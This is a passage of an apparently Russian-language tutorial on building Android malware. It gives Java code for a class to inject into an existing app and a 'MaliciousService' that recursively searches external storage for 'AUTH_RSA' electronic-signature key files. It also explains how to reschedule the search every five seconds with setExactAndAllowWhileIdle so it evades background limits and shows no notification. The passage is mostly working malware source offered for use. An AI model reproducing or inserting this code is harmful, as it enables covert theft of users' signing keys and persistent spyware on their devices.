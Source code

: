 ```StageAttack``` - состоит из одного статического метода, который начинает нашу атаку. Мы специально создаем переходный статический метод, для удобства внедрения в готовый класс.


```java
public class StageAttack {

    public static void pwn(Context ctx) {
        Intent intent = new Intent(ctx,  MaliciousService.class);
        ctx.startService(intent);
    }
}
```

```MaliciousService``` - сервис, который рекурсивно осуществляет поиск по всему external storage.

```java
private String pwn2(File dir) {

	String path = null;
	File[] list = dir.listFiles();

    for (File f : list) {

	    if (f.isDirectory()) {
		path = pwn2(f);
		if (path != null)
		    return path;
	    } else {
		path = f.getAbsolutePath();
		if (path.contains("AUTH_RSA")) {
		    Log.d(TAG, "AUTH_RSA found here - " + path);
		    return path;
		}
	    }
    }
    return null;
}
```

Если ЭЦП не найдено, мы будем повторять поиск каждые 5 секунд, пока не найдем. Интервал можно использовать любой. Взяв слишком маленький интервал, наш сервис рискует быть остановленным системой. Чем выше версия андроида, тем суровее политика в отношении работы фоновых процессов. Foreground service мы тоже не можем использовать, так как для этого постоянно должно висеть уведомление. Не являясь андроид разработчиком, я потратил кучу времени, чтобы найти способ запланировать задачу, которая будет выполняться точно в срок. Это не так просто, как кажется. В андроиде есть несколько рекомендуемых для этого способов (JobService, WorkManager, setRepeating() AlarmManager'а). В документации неочевидно указано, что интервал задачи должен быть не менее 15 минут и время ее выполнения зависит от желания системы. Нас это не устраивает, поэтому мы используем класс ```AlarmManager```, метод ```setExactAndAllowWhileIdle()```. Когда задача выполниться, снова ее планируем, с таким же интервалом. Это единственный на данный момент способ известный мне, имеющий самую высокую точность.

```java
private void scheduleMalService() {

        Context ctx = getApplicationContext();
        AlarmManager alarmMgr = (AlarmManager) ctx.getSystemService(Context.ALARM_SERVICE);
        Intent intent = new Intent(ctx, MaliciousTaskManager.class);

        final int _id = (int) System.currentTimeMillis();
        PendingIntent alarmIntent = PendingIntent.getBroadcast(ctx, _id, intent, 0);

        alarmMgr.setExactAndAllowWhileIdle(AlarmManager.RTC_WAKEUP, System.currentTimeMillis() 
		+ 5000, alarmIntent);
    }
```
